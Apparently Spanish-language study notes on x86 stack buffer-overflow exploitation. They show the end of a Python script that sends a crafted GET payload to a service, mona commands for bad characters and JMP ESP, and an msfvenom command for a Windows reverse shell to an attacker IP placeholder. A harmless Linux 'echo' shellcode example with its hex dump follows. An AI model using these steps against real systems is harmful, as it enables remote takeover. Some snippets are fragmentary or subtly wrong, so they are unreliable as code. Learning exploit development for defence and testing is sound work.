 ```python
            print("[+] Conexión establecida.")
            s.send(b"GET " + payload + b" HTTP/1.1\r\n\r\n")
            s.recv(1024)
            s.close()
            print("[+] Enviando bytes al servidor...")
        except Exception as e:
            print("[+] El servicio la palmó")
            sys.exit(1)

# funcion principal

if __name__ == '__main__':

    texploto()
```


- bytearray

!mona compare -a 0x038438D0 -f C:\aqui\bytearray.bin
!mona compare -a bytesdememoriaESP -f C:\Users\dondehemoscreadoanteselBytearray.bin




- shellcode
```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=ipAtacante LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0d' EXITFUNC=thread
```

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
jmp ESP
# También
!mona modules
!mona findwild -s "JMP ESP"
```

- Ponemos OpCode y Nops
```bash
ops = pack("<L", 0xloquenosdaElUltimo command que no lleve badchars en minúscula)
anteseip + eip + ops + b"\x90*16" + shellcode
```

## Creando shellcode

> Son pequeños programas para llevar a cabo explotaciones, creadas mayoritariamente en **lenguaje ensamblador**

> Crearé un binario para  trabajar con el

```bash
msfvenom -p linux/x86/exec CMD="echo 'Hola mundo'" -f elf -o binariot
```

- Las cadenas están puestas al revés por estar en **little endian**, en **32 bits**
```bash
msfvenom -p linux/x86/exec CMD="echo 'Hola mundo'" -f raw |  xxd
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 53 bytes

00000000: 6a0b 5899 5266 682d 6389 e768 2f73 6800  j.X.Rfh-c..h/sh.
00000010: 682f 6269 6e89 e352 e812 0000 0065 6368  h/bin..R.....ech
00000020: 6f20 2748 6f6c 6120 6d75 6e64 6f27 0057  o 'Hola mundo'.W
00000030: 5389 e1cd 80                             S....
                                                        
```
